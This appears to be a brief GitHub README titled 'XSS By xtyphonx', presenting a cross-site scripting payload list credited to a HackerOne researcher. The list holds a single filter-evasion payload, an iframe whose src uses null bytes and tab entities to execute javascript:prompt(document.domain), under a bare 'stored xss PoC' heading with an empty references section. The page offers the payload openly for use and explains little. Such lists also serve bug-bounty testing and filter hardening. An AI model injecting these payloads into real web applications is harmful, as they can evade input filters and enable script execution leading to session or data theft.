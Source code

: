 ### XSS By xtyphonx


##### PoC : 

stored xss PoC


#### XSS Payload List :

```
<!-- Project Name  : Cross Site Scripting ( XSS ) Vulnerability Payload List -->
<!--        Author : https://hackerone.com/xtyphonx -->


<iframe %00 src="&Tab;javascript:prompt(document.domain)&Tab;"%00>




#### References :


